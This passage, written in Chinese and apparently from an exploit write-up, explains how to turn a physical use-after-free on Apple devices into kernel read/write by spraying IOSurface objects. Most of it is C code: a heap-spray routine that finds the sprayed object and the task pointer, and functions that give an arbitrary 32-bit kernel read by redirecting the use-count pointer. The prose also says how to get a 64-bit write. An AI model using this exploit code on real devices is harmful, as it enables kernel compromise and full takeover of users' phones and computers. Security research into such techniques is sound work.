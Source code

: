   
如你所见，IOSURFACE_MAGIC是我们可以搜索的魔法值，并且我们只需nSurfaces用这个魔法值分配 IOSurfaces 的数量。  
  
然后通过反复调用这个函数，你可以很容易地获得一个好的内核读/写原语：  
  
```
int iosurface_krw(io_connect_t client, uint64_t *puafPages, int nPages, uint64_t *self_task, uint64_t *puafPage) {
    io_connect_t *surfaceIDs = malloc(sizeof(io_connect_t) * 0x4000);
    int nSurfaceIDs = 0;
    
    for (int i = 0; i < 0x400; i++) {
        spray_iosurface(client, 10, &surfaceIDs, &nSurfaceIDs);
        
        for (int j = 0; j < nPages; j++) {
            uint64_t start = puafPages[j];
            uint64_t stop = start + (pages(1) / 16);
            
            for (uint64_t k = start; k < stop; k += 8) {
                if (iosurface_get_pixel_format(k) == IOSURFACE_MAGIC) {
                    info.object = k;
                    info.surface = surfaceIDs[iosurface_get_alloc_size(k) - 1];
                    if (self_task) *self_task = iosurface_get_receiver(k);
                    goto sprayDone;
                }
            }
        }
    }
    
sprayDone:
    for (int i = 0; i < nSurfaceIDs; i++) {
        if (surfaceIDs[i] == info.surface) continue;
        iosurface_release(client, surfaceIDs[i]);
    }
    free(surfaceIDs);
    
    return 0;
}
```  
  
  
我们不断循环喷射 IOSurface 对象，直到在某个已释放的物理页面上找到这些对象。找到后，我们将保存该对象的地址和 ID 以供日后使用，并读取receiverIOSurface 对象的字段以检索任务结构地址。  
  
**内核内存读/写**  
  
此时，我们在内核内存中有一个 IOSurface 对象，我们可以从用户空间读取和写入该对象，因为它所在的物理页面也映射到我们的进程中。但是我们如何使用它来获取内核读/写原语呢？  
  
IOSurface 对象有两个有用的字段。第一个是指向对象的 32 位使用计数的指针，第二个是指向 64 位“索引时间戳”的指针。通过调用方法获取使用计数并设置索引时间戳，同时覆盖指向这些值的指针，我们可以实现任意 32 位内核读取和任意 64 位内核写入。  
  
对于读取，我们覆盖使用计数指针（占读取中的 0x14 字节偏移量），然后调用方法来读取使用计数。  
  
```
uint32_t get_use_count(io_connect_t client, uint32_t surfaceID) {
    uint64_t args[1] = {surfaceID};
    uint32_t size = 1;
    uint64_t out = 0;
    IOConnectCallMethod(client, 16, args, 1, 0, 0, &out, &size, 0, 0);
    return (uint32_t)out;
}

uint32_t iosurface_kread32(uint64_t addr) {
    uint64_t orig = iosurface_get_use_count_pointer(info.object);
    iosurface_set_use_count_pointer(info.object, addr - 0x14); // Read is offset by 0x14
    uint32_t value = get_use_count(info.client, info.surface);
    iosurface_set_use_count_pointer(info.object, orig);
    return value;
}
```